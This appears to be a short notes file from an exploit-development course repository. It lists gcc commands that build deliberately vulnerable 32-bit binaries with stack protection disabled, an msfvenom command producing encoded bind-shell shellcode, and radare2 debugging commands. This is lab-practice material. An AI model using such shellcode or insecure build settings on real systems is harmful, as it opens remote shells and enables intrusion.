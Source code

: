 # ED202

CMD: gcc -g -m32 -z execstack -fno-stack-protector -o bin/pwd32 src/pwd.c

# ED203

CMD: gcc -g -m32 -z execstack -no-pie -fno-stack-protector -o bin/ED3a src/ED3a.c

# ED204
shellcode cmd: sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=31337 AppendExit=true -e x86/alpha_mixed -f python

* Python3 print hex: 
python3 -c "import sys; sys.stdout.buffer.write(b'\x8c')" | xxd

* Radare2 hex args:
dor arg1=\x90\x90\x90AAA
doo

* Radare Python Script:
dor arg1=!./exbad.py
doo

* Radare rr script:
r2 -d ED204 -r debug.rr

* Radare remote debugging:
## On windows:
radare2 rap://:5250

## On linux: 
=+ rap://192.168.56.103:5250/C:\Windows\System32\notepad.exe
